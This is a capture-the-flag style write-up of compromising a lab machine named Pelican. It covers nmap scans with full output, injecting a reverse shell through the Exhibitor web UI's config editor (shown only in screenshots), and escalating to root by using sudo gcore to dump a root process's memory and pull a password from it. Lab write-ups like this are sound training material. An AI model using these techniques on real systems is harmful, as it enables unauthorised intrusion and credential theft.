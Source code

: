 First start with nmap scan.

`nmap -p- --min-rate 1000 -oN fulltcp.txt -v -Pn <IP>`

```
# Nmap 7.93 scan initiated Sun Jan  8 09:13:00 2023 as: nmap -p- --min-rate 1000 -oN fulltcp.txt -v -Pn 192.168.186.98
Increasing send delay for 192.168.186.98 from 10 to 20 due to 159 out of 528 dropped probes since last increase.
Warning: 192.168.186.98 giving up on port because retransmission cap hit (10).
Increasing send delay for 192.168.186.98 from 640 to 1000 due to 118 out of 391 dropped probes since last increase.
Nmap scan report for 192.168.186.98
Host is up (0.13s latency).
Not shown: 65508 closed tcp ports (conn-refused)
PORT      STATE    SERVICE
22/tcp    open     ssh    
139/tcp   open     netbios-ssn
445/tcp   open     microsoft-ds
631/tcp   open     ipp    
2181/tcp  open     eforward
2222/tcp  open     EtherNetIP-1
8080/tcp  open     http-proxy
8081/tcp  open     blackice-icecap
36233/tcp open     unknown

Read data files from: /usr/bin/../share/nmap
# Nmap done at Sun Jan  8 09:14:48 2023 -- 1 IP address (1 host up) scanned in 108.18 seconds
```

Now we know what ports are open, let run nmap default scripts to know what services are running on those ports.

`nmap -sC -sV -oN normal.tcp -p 22,139,445,631,2181,2222,8080,8081,36233 -Pn <IP>`

```
# Nmap 7.93 scan initiated Sun Jan  8 09:32:24 2023 as: nmap -sC -sV -oN normal.tcp -p 22,139,445,631,2181,2222,8080,8081,36233 -Pn 192.168.186.98
Nmap scan report for 192.168.186.98                                                
Host is up (0.35s latency).           
                                         
PORT      STATE  SERVICE     VERSION
22/tcp    open   ssh         OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey:                                                                                                                                                        
|   2048 a8e16068bef58e707054b427ee9a7e7f (RSA)
|   256 bb999a453f350bb349e6cf1149878d94 (ECDSA)
|_  256 f2ebfc45d7e9807766a39353de00579c (ED25519)                    
139/tcp   open   netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp   open   netbios-ssn Samba smbd 4.9.5-Debian (workgroup: WORKGROUP)
631/tcp   open   ipp         CUPS 2.2
|_http-server-header: CUPS/2.2 IPP/2.1  
|_http-title: Forbidden - CUPS v2.2.10
| http-methods:                       
|_  Potentially risky methods: PUT
2181/tcp  open   zookeeper   Zookeeper 3.4.6-1569965 (Built on 02/20/2014)
2222/tcp  open   ssh         OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey:       
|   2048 a8e16068bef58e707054b427ee9a7e7f (RSA)
|   256 bb999a453f350bb349e6cf1149878d94 (ECDSA)
|_  256 f2ebfc45d7e9807766a39353de00579c (ED25519)
8080/tcp  open   http        Jetty 1.0                                             
|_http-title: Error 404 Not Found
|_http-server-header: Jetty(1.0)
8081/tcp  open   http        nginx 1.14.2 
|_http-title: Did not follow redirect to http://192.168.186.98:8080/exhibitor/v1/ui/index.html
|_http-server-header: nginx/1.14.2
36233/tcp closed unknown
Service Info: Host: PELICAN; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:                                                                                                                                                  
| smb-os-discovery:                                                                                                                                                   
|   OS: Windows 6.1 (Samba 4.9.5-Debian)
|   Computer name: pelican                                                         
|   NetBIOS computer name: PELICAN\x00
|   Domain name: \x00
|   FQDN: pelican
|_  System time: 2023-01-08T03:32:40-05:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time: 
|   date: 2023-01-08T08:32:41
|_  start_date: N/A
|_clock-skew: mean: 1h39m59s, deviation: 2h53m13s, median: 0s
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Jan  8 09:32:59 2023 -- 1 IP address (1 host up) scanned in 35.44 seconds
```

Now we know what services are running, started by checking port 8081 (http).

![image](https://user-images.githubusercontent.com/87468669/211188740-aaabcf9f-13c1-4070-9559-bc0816e9752f.png)

Checking port 8081 redirected me to 8080, and as we can see it is running exhibitor web ui v1.0, let's check for exploit.

![image](https://user-images.githubusercontent.com/87468669/211188859-dc3ee008-f720-45c1-aec1-0b2f5ccbabe7.png)

found an exploit on searchsploit. let's implement what the exploits does.

![image](https://user-images.githubusercontent.com/87468669/211189069-02c6d646-cd02-4076-915a-135dc147c568.png)

turn on editing, inject a reverse shell payload, fire up netcat listener and click on commit.

![image](https://user-images.githubusercontent.com/87468669/211189220-e722e7f1-9534-43c0-93e6-eef7b2774c24.png)

click on commit all at once , it will save and check back ncat listener.

![image](https://user-images.githubusercontent.com/87468669/211189253-fb525919-fb8b-46d2-9b86-0d2d2e42647b.png)

Bull's eye we got a reverse shell. stabilize the shell and let's escalate privs.

```
charles@pelican:/opt/zookeeper$ sudo -l
Matching Defaults entries for charles on pelican:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User charles may run the following commands on pelican:
    (ALL) NOPASSWD: /usr/bin/gcore
charles@pelican:/opt/zookeeper$
```

first i checked for sudo permissions using command `sudo -l` i found out that user charles is allow to run `/usr/bin/gcore` as root without password. doing some researching about escalating privs with gcore.
gcore can be used to generate core dumps of running processes. Such files often contains sensitive information such as open files content, cryptographic keys, passwords, etc. This command produces a binary file named core.$PID, that is then often filtered with strings to narrow down relevant information.

![image](https://user-images.githubusercontent.com/87468669/211189536-82f899c5-cf23-4f89-8274-99f7eeda38b6.png)

using th command `ps -aux | grep root` to show process running as root, in the process id PID 492: we can see the process that root is running `/usr/bin/password-store`. now let use gcore to dump the process core.

```
charles@pelican:/opt/zookeeper$ sudo /usr/bin/gcore 492
0x00007f12bb31f6f4 in __GI___nanosleep (requested_time=requested_time@entry=0x7fffb07c5dc0, remaining=remaining@entry=0x7fffb07c5dc0) at ../sysdeps/unix/sysv/linux/nanosleep.c:28
28      ../sysdeps/unix/sysv/linux/nanosleep.c: No such file or directory.
Saved corefile core.492
[Inferior 1 (process 492) detached]
charles@pelican:/opt/zookeeper$ ls -al core.492
-rw-r--r-- 1 charles charles 354448 Jan  8 04:46 core.492
charles@pelican:/opt/zookeeper$ 
```

now we dumped the process into a core file save as core.492, let's use strings to make the file a human readable format.

![image](https://user-images.githubusercontent.com/87468669/211189871-f5f6bb34-fdb8-42a2-bbc0-e01dbdc95133.png)

using strings to make the core.492 file readable, i saw `001 Password: root:` which might be a potential root password. let's try it out cause no harm in trying.🤓

![image](https://user-images.githubusercontent.com/87468669/211189998-87726800-94d0-482a-8783-faa65043dba7.png)

And Boom!!! we got root... An intrsting box yeah😉
